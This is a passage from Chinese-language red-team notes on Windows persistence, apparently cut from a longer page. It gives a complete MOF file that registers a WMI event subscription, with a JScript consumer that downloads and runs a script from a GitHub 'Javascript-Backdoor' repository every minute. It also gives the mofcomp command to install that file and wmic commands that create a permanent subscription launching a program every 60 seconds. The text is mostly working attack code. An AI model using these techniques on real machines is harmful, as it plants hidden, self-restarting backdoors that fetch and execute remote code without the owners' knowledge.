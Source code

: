 参考：

《Use bitsadmin to maintain persistence and bypass Autoruns》

#### 方法2：mof

```
pragma namespace("\\\\.\\root\\subscription")    
instance of __EventFilter as $EventFilter
{
    EventNamespace = "Root\\Cimv2";
    Name  = "filtP1";
    Query = "Select * From __InstanceModificationEvent "
            "Where TargetInstance Isa \"Win32_LocalTime\" "
            "And TargetInstance.Second = 1";
    QueryLanguage = "WQL";
};    
instance of ActiveScriptEventConsumer as $Consumer
{
    Name = "consP1";
    ScriptingEngine = "JScript";
    ScriptText = "GetObject(\"script:https://raw.githubusercontent.com/3gstudent/Javascript-Backdoor/master/test\")";
};    
instance of __FilterToConsumerBinding
{
    Consumer   = $Consumer;
    Filter = $EventFilter;
};
```

管理员权限：

```
mofcomp test.mof
```

参考：

《WSC、JSRAT and WMI Backdoor》

#### 方法3：wmi

每隔60秒执行一次notepad.exe

```
wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="BotFilter82", EventNameSpace="root\cimv2",QueryLanguage="WQL", Query="SELECT * FROM __InstanceModificationEvent WITHIN 60 WHERE TargetInstance ISA 'Win32_PerfFormattedData_PerfOS_System'"
wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="BotConsumer23", ExecutablePath="C:\Windows\System32\notepad.exe",CommandLineTemplate="C:\Windows\System32\notepad.exe"
wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding CREATE Filter="__EventFilter.Name=\"BotFilter82\"", Consumer="CommandLineEventConsumer.Name=\"BotConsumer23\""
```

参考：
